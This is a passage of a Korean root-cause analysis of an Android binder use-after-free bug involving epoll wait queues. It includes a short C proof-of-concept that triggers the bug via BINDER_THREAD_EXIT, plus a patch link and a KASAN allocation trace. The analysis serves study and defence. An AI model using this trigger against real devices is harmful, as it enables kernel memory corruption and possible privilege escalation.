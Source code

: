 이를 통해 알 수 있는 점은 binder thread와 epoll간의 wait_queue 연결이 되어 있고, circular double linked list가 문제가 될 수 있다는 점을 알 수 있다.


<br>
<br>
  

# 4. Root Cause Analysis

이번 쳅터에서는 POC를 통해 UAF가 발생되는 취약점의 Root Cause를 분석한다.

분석 순서는 POC의 진행 과정을 따라 Allocate, Free, Use 순으로 진행된다.

<br>

## 4.1 POC

```c
#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <unistd.h>

#define BINDER_THREAD_EXIT 0x40046208ul

int main()
{
        int fd, epfd;
        struct epoll_event event = { .events = EPOLLIN };

        fd = open("/dev/binder0", O_RDONLY);
        epfd = epoll_create(1000);
        epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);
        ioctl(fd, BINDER_THREAD_EXIT, NULL);
}

```

<br>
  

## 4.2 Allocate

Use-After-Free 버그가 발생했다는 것은 patch note를 통해 알 수 있다. 이후, Use-After-Free 취약점이 발생한 힙 청크가 어디서 할당되었는지 알아보기 위해 chromium에 올라온 KASAN 코드를 확인해 볼 수 있다.

- patch note : [https://android.googlesource.com/kernel/msm/+/550c01d0e051461437d6e9d72f573759e7bc5047%5E!/#F0](https://android.googlesource.com/kernel/msm/+/550c01d0e051461437d6e9d72f573759e7bc5047%5E!/#F0)

```
[  464.655899] c0   3033 Allocated by task 3033:
[  464.658257]  [<ffffff900808e5a4>] save_stack_trace_tsk+0x0/0x204
[  464.663899]  [<ffffff900808e7c8>] save_stack_trace+0x20/0x28
[  464.669882]  [<ffffff90082b0b14>] kasan_kmalloc.part.5+0x50/0x124
[  464.675528]  [<ffffff90082b0e38>] kasan_kmalloc+0xc4/0xe4
[  464.681597]  [<ffffff90082ac8a4>] kmem_cache_alloc_trace+0x12c/0x240
[  464.686992]  [<ffffff90094093c0>] binder_get_thread+0xdc/0x384
[  464.693319]  [<ffffff900940969c>] binder_poll+0x34/0x1bc
[  464.699127]  [<ffffff900833839c>] SyS_epoll_ctl+0x704/0xf84
[  464.704423]  [<ffffff90080842b0>] el0_svc_naked+0x24/0x28

```
